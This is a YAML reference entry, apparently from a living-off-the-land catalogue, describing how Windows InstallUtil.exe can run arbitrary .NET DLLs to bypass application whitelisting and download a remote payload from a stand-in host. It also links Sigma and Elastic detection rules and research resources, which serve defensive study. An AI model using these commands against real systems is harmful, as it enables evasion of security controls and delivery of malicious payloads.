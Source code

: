 ```yaml
---
Name: Installutil.exe
Description: The Installer tool is a command-line utility that allows you to install and uninstall server resources by executing the installer components in specified assemblies
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
    Description: Execute the target .NET DLL or EXE.
    Usecase: Use to execute code and bypass application whitelisting
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
    Description: Execute the target .NET DLL or EXE.
    Usecase: Use to execute code and bypass application whitelisting
    Category: Execute
    Privileges: User
    MitreID: T1218.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: InstallUtil.exe https://example.com/payload
    Description: It will download a remote payload and place it in the cache folder (for example - %LOCALAPPDATA%\Microsoft\Windows\INetCache\IE)
    Usecase: Downloads payload from remote server
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\InstallUtil.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/a04fbe2a99f1dcbbfeb0ee4957ae4b06b0866254/rules/windows/process_creation/win_possible_applocker_bypass.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/cc241c0b5ec590d76cb88ec638d3cc37f68b5d50/rules/windows/defense_evasion_installutil_beacon.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
Resources:
  - Link: https://pentestlab.blog/2017/05/08/applocker-bypass-installutil/
  - Link: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_12
  - Link: https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.004/T1218.004.md
  - Link: https://www.blackhillsinfosec.com/powershell-without-powershell-how-to-bypass-application-whitelisting-environment-restrictions-av/
  - Link: https://oddvar.moe/2017/12/13/applocker-case-study-how-insecure-is-it-really-part-1/
  - Link: https://docs.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

